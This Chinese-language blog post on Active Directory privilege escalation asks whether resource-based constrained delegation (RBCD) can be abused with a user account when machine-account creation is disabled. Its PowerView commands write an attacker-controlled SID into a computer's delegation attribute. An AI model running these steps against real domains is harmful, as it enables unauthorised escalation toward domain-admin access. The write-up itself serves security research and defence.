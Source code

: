 ```yaml
---
title: Privilege Escalation - Exploiting RBCD Using a User Account
date: 2022-05-27 20:26:00 +0800
author: WHOAMI
toc: true
categories: ["Windows Security"]
tags: ["Active Directory", "Kerberos", "Privilege Escalation", "Domain Delegation", "Unconstrained Delegation"]
layout: post
---
```


通常情况下，攻击者能够在域的 `ms-DS-MachineAccountQuota` 属性值的限制内创建新的机器账户，并利用基于资源的约束委派实现提权。默认情况下，`ms-DS-MachineAccountQuota` 属性值为 10，也就是说一个域用户只能创建 10 个机器账户。但是，管理员可以将该属性值设为 0 以阻止潜在的攻击。当 `ms-DS-MachineAccountQuota` 属性值为 0 的时候，我们能否使用域用户账户代替机器账户完成 RBCD 攻击过程呢？



## Background

基于资源的约束委派（Resource Based Constrained Delegation，RBCD）是在 Windows Server 2012 中新引入的功能，与传统的约束委派相比，它不再需要拥有 SeEnableDelegationPrivilege 特权的域管理员去设置相关属性，并且将设置委派的权限交换给了服务资源自身，即服务自己可以决定谁可以对我进行委派。基于资源的约束性委派的关键在于 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的设置。

通常情况下，攻击者能够在域的 `ms-DS-MachineAccountQuota` 属性值的限制内创建新的机器账户，并配合 NTLM Relay 等方法在目标服务账户或机器账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中添加新建的机器账户的 SID，然后便可以将新建的机器账户与 S4U 协议一起使用，代表域内任何用户（包括域管理员用户）为目标账户/机器账户获取 TGS 票据。

默认情况下，`ms-DS-MachineAccountQuota` 属性值为 10，也就是说一个域用户只能创建 10 个机器账户。此外，管理员可以将该属性值设为 0 以阻止潜在的攻击。当 `ms-DS-MachineAccountQuota` 属性值为 0 的时候，我们能否使用域用户账户代替机器账户完成 RBCD 攻击过程呢？

为了探究上述问题，我们将域用户 Marcus 的 SID 添加到域机器账户 `WIN10-CLIENT1$` 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中，并假设我们已经获取了 Marcus 用户的凭据。该过程可以通过 [PowerView.ps1](https://github.com/shigophilo/tools/blob/master/PowerView.ps1) 完成，相关命令如下。

```powershell
# 导入模块
Import-Module .\PowerView.ps1
# 获取 Marcus 账户的 SID
Get-NetComputer "Marcus" -Properties objectsid
# 尝试配置 Marcus 到 WIN10-CLIENT1 的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1536491439-3234161155-253608391-1106)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN10-CLIENT1 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer WIN10-CLIENT1 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```
